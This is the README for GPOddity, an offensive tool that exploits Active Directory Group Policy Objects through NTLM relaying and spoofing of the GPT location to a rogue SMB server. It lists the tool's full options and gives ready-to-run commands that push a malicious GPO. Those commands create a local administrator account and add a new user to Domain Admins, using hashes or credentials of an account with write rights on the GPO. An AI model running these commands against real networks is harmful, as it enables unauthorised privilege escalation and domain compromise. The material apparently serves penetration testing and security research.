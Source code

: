 # GPOddity
The GPOddity project, aiming at automating GPO attack vectors through NTLM relaying (and more).

For more details regarding the attack and a demonstration on how to use the tool, see the associated article available at:
https://www.synacktiv.com/publications/gpoddity-exploiting-active-directory-gpos-through-ntlm-relaying-and-more

# Installation

## Pipx

You can install GPOddity through pipx with the following command:

```
$ python3 -m pipx install git+https://github.com/synacktiv/GPOddity
```

## Manual

Alternatively, you can install GPOddity manually by cloning the repository and installing the dependencies:

```
$ git clone https://github.com/synacktiv/GPOddity
$ python3 -m pip install -r requirements.txt
```

# Usage

```
$ python3 gpoddity.py --help
                                                                                                                                                                                                                   
 Usage: gpoddity.py [OPTIONS]                                                                                                                                                                                      
                                                                                                                                                                                                                   
╭─ Options ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --help          Show this message and exit.                                                                                                                                                                     │
╰─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ General options ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ *  --domain               TEXT  The target domain [default: None] [required]                                                                                                                                    │
│ *  --gpo-id               TEXT  The GPO object GUID without enclosing brackets (for instance, '1328149E-EF37-4E07-AC9E-E35920AD2F59') [default: None] [required]                                                │
│ *  --username             TEXT  The username of the user having write permissions on the GPO AD object. This may be a machine account (for instance, 'SRV01$') [default: None] [required]                       │
│    --password             TEXT  The password of the user having write permissions on the GPO AD object [default: None]                                                                                          │
│    --hash                 TEXT  The NTLM hash of the user having write permissions on the GPO AD object, with the format 'LM:NT' [default: None]                                                                │
│    --dc-ip                TEXT  [Optional] The IP of the domain controller if the domain name can not be resolved. [default: None]                                                                              │
│    --ldaps                      [Optional] Use LDAPS on port 636 instead of LDAP                                                                                                                                │
│    --verbose                    [Optional] Enable verbose output                                                                                                                                                │
│    --no-smb-server              [Optional] Disable the smb server feature. GPOddity will only generate a malicious GPT, spoof the GPO location, wait, and cleanup                                               │
│    --just-clean                 [Optional] Only perform cleaning action from the values specified in the file of the --clean-file flag. May be useful to clean up in case of incomplete exploitation or         │
│                                 ungraceful exit                                                                                                                                                                 │
│    --clean-file           TEXT  [Optional] The file from the 'cleaning/' folder containing the values to restore when using --just-clean flag. Relative path from GPOddity install folder, or absolute path     │
│                                 [default: None]                                                                                                                                                                 │
╰─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ Malicious Group Policy Template generation options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --command           TEXT             The command that should be executed through the malicious GPO [default: None]                                                                                              │
│ --powershell                         [Optional] Use powershell instead of cmd for command execution                                                                                                             │
│ --gpo-type          [user|computer]  [Optional] The type of GPO that we are targeting. Can either be 'user' or 'computer' [default: GPOTypes.computer]                                                          │
╰─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ Group Policy Template location spoofing options ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --rogue-smbserver-ip           TEXT  The IP address or DNS name of the server that will host the spoofed malicious GPO. If using the GPOddity smb server, this should be the IP address of the current host on  │
│                                      the internal network (for instance, 192.168.58.101)                                                                                                                        │
│                                      [default: None]                                                                                                                                                            │
│ --rogue-smbserver-share        TEXT  The name of the share that will serve the spoofed malicious GPO (for instance, 'synacktiv'). If you are running the embedded SMB server, do NOT provide names including    │
│                                      'SYSVOL' or 'NETLOGON' (protected by UNC path hardening by default)                                                                                                        │
│                                      [default: None]                                                                                                                                                            │
╰─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ GPOddity smb server options ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --machine-name        TEXT  [Optional] The name of a valid domain machine account, that will be used to perform Netlogon authentication (for instance, SRV01$). If omitted, will use the user specified with    │
│                             the --username option, and assume that it is a valid machine account                                                                                                                │
│                             [default: None]                                                                                                                                                                     │
│ --machine-pass        TEXT  [Optional] The password of the machine account if specified with --machine-name [default: None]                                                                                     │
│ --machine-hash        TEXT  [Optional] The NTLM hash of the machine account if specified with --machine-name, with the format 'LM:NT' [default: None]                                                           │
│ --comment             TEXT  [Optional] Share's comment to display when asked for shares [default: None]                                                                                                         │
│ --interface           TEXT  [Optional] The interface on which the GPOddity smb server should listen [default: 0.0.0.0]                                                                                          │
│ --port                TEXT  [Optional] The port on which the GPOddity smb server should listen [default: 445]                                                                                                   │
╰─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
```

# Examples

Below are some example commands taken from the article linked above.

> Exploiting a Computer GPO to add a local administrator (running the embedded SMB server).
```
$ python3 gpoddity.py --gpo-id '46993522-7D77-4B59-9B77-F82082DE9D81' --domain 'corp.com' --username 'GPODDITY$' --password '[...]' --command 'net user synacktiv_gpoddity Password123! /add && net localgroup administrators synacktiv_gpoddity /add' --rogue-smbserver-ip '192.168.58.101' --rogue-smbserver-share 'synacktiv'
```


> Exploiting a User GPO to add a domain administrator (no embedded SMB server).
```
$ python3 gpoddity.py --gpo-id '7B36419B-B566-46FA-A7B7-58CA9030A604' --gpo-type 'user' --no-smb-server --domain 'corp.com' --username 'GPODDITY$' --password '[...]' --command 'net user user_gpo Password123! /add /domain && net group "Domain Admins" user_gpo /ADD /DOMAIN' --rogue-smbserver-ip '192.168.58.102' --rogue-smbserver-share 'synacktiv'
```

# About cleaning

One of the advantages of using GPOddity resides in the possibility to safely exploit GPOs, without altering legitimate GPT files, thus minimizing disruption risks in production environments. However, GPOddity still has to modify some attributes of the Group Policy Container files in order to temporarily spoof the GPT location. As a result, ensuring that the production environment remains functional supposes to revert those changes after exploitation.

By default and as explained in the article, GPOddity will do it for you by reverting any alteration performed on the GPC at the end of the exploit, when the user interrupts the program with CTRL+C. As a result, in standard conditions, you do not need to do anything to ensure everything is cleaned up.

However, if for some reason you are not able to exit GPOddity gracefully through a CTRL+C (process killed, network connection lost etc.), you can launch GPOddity with the '--just-clean' flag to perform cleaning actions in an independent manner.

This feature works in the following way. Each time GPOddity is run, the initial state of the GPO will be saved in a file under the path `cleaning/[GPO ID]/[timestamp].txt`. You can then restore all the values contained in this save file through the '--just-clean' flag. For instance, assume that you want to restore all the attributes of the GPO with ID '46993522-7D77-4B59-9B77-F82082DE9D81' to their values before running GPOddity on the 14th October 2023 at 08:08:44. You may run the following command:

```
$ python3 gpoddity.py --just-clean --domain 'corp.com' --gpo-id '46993522-7D77-4B59-9B77-F82082DE9D81' --username 'GPODDITY$' --password '[...]' --clean-file cleaning/46993522-7D77-4B59-9B77-F82082DE9D81/2023_10_14-08_08_44.txt
```

# Video demonstration

![GPOddity](assets/demo.gif)
